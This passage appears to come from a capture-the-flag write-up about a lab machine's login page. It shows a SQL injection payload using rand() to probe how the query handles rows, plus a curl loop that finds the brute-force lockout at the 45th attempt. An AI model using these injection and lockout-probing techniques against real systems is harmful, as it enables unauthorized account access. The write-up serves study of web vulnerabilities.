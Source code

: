     
    
    select * from users where uid='0xdf' or rand() > 0.5 or '1'='0' and password='{password}' and fingerprint_id='{fingerprint_id}';
    

The random value will be generated for each row. Because I know there are two
rows, there are three possible outcomes - zero results, one result, or two
results.

If I send a bunch of times, I’ll see all three. Sometimes it returns 200 with
the login page:

![image-20211102163704601](https://0xdfimages.gitlab.io/img/image-20211102163704601.png)

This must be the case where zero results come back.

Other times, I get the error page for having two:

![image-20211102163740745](https://0xdfimages.gitlab.io/img/image-20211102163740745.png)

The interesting one is the third result:

![image-20211102163822486](https://0xdfimages.gitlab.io/img/image-20211102163822486.png)

It must be checking the fingerprint ID outside of the original query.

#### Brute Force Protection

The site mentioned there was brute force protection. I didn’t originally
discover this until later when I was doing the blind injection, but it makes
more sense to show it here. If I try to login many times in a row quickly, it
will eventually stop returning the typical response and instead give:

    
    
    HTTP/1.1 200 OK
    Server: GlassFish Server Open Source Edition  5.0.1 
    X-Powered-By: Servlet/3.1 JSP/2.3 (GlassFish Server Open Source Edition  5.0.1  Java/Private Build/1.8)
    Content-Type: text/html;charset=ISO-8859-1
    Connection: close
    Content-Length: 16
    
    You are blocked
    

To play with this a bit more, I can see it happens on the 45th attempt:

    
    
    oxdf@hacky$ for i in {1..50}; do echo -n "$i  "; curl -s http://10.10.11.127:8080/login -d 'uid=0xdf&auth_primary=0xdf&auth_secondary=97c98f6f98fb6ac11d06f7239847c7a4' | gr
    ep -e Invalid -e blocked; done
    1      Invalid credentials given
    2      Invalid credentials given
    3      Invalid credentials given
    4      Invalid credentials given
    5      Invalid credentials given
    ...[snip]...
    41      Invalid credentials given
    42      Invalid credentials given
    43      Invalid credentials given
    44      Invalid credentials given
    45  You are blocked
    46  You are blocked
    47  You are blocked
    48  You are blocked
    49  You are blocked
    50  You are blocked
    